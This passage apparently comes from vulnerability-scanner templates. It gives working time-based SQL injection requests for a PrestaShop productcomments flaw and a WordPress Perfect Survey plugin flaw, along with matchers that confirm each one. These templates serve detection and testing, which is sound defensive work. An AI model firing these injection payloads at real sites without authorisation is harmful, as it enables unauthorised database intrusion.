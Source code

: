 - severity - critical
- tags - cve,cve2021,sqli,prestshop,edb
## Requests
### Step - 1
```
@timeout: 20s
GET /index.php?fc=module&module=productcomments&controller=CommentGrade&id_products[]=1%20AND%20(SELECT%203875%20FROM%20(SELECT(SLEEP(6)))xoOt) HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - dsl**
- dsl
    1. duration>=6
    2. status_code == 200
    3. contains(content_type, "application/json")
    4. contains(body, "average_grade")
- condition - and

---
# WordPress Perfect Survey<1.5.2 - SQL Injection
## Description
- Perfect Survey WordPress plugin before 1.5.2 does not validate and escape the question_id GET parameter before using it in a SQL statement in the get_question AJAX action, allowing unauthenticated users to perform SQL injection.

- severity - critical
- tags - cve,wpscan,cve2021,sqli,wp,wordpress,wp-plugin,unauth,edb
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-admin/admin-ajax.php?action=get_question&question_id=1%20AND%20(SELECT%207242%20FROM%20(SELECT(SLEEP(4)))HQYx)
### Matchers

**Type - dsl**
- dsl
    1. duration>=4

**Type - word**
- part - header
- words
    1. wp-ps-session
